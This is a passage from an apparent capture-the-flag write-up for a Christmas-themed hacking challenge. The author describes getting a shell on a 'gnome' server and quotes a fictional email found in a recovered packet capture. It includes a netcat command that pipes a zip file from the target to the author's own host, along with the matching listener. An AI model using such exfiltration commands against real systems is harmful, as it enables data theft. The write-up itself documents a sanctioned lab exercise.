 And hey, we have a shell:

![Look at that](17.png)

Now let's just go get that gnome.conf:

![There it is](18.png)

We also want the zip file that's in /gnome/www/files, so let's get that too.
It's not really a good idea to run `cat` on it over this connection, so let's
just send it over another pipe:

```sh
ls /gnome/www/files
20151203133815.zip
- snip -
cat /gnome/www/files/20151203133815.zip | nc home.fwilson.me 18626
```

On `home.fwilson.me` I had a listener set up like this:

```
sapphire :: ~ » nc -l -p 18626 > 20151203133815.zip
```

I fetched `factory_cam_4.zip` in a similar way.

So, now we have another zip file! Let's analyze it. Upon extraction, we get
another packet capture file. It's similar to the last one in structure. There
is another email. The text is:

```
Dr. O'Malley,

In your recent email, you inquired:

> When did you first notice your anxiety about the holiday season?

Anxiety is hardly the word for it.  It's a deep-seated hatred, Doctor.

Before I get into details, please allow me to remind you that we operate
under the strictest doctor-patient confidentiality agreement in the
business.  I have some very powerful lawyers whom I'd hate to invoke in the
event of some leak on your part.  I seek your help because you are the best
psychiatrist in all of Who-ville.

To answer your question directly, as a young child (I must have been no more
```